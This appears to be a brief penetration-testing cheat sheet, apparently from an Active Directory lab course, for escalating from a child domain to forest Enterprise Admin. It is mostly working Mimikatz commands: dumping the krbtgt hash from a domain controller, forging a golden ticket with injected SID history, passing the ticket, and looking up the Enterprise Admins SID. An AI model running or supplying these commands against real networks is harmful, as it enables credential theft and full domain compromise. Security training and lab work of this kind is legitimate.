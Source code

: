 # Child to parent - krbtgt hash

### **Get krbtgt hash from dc**

```
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -Computername <computername>
```



### **Create TGT**

the mimikatz option /sids is forcefully setting the SID history for the Enterprise Admin group for dollarcorp.moneycorp.local that is the Forest Enterprise Admin Group

```
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<domain> /sid:<sid> /sids:<sids> /krbtgt:<hash> /ticket:<path to save ticket>"'
```



### **Inject the ticket**

```
Invoke-Mimikatz -Command '"kerberos::ptt <path to ticket>"'
```



### **Get SID of enterprise admin**

```
Get-NetGroup -Domain <domain> -GroupName "Enterprise Admins" -FullData | select samaccountname, objectsid
```
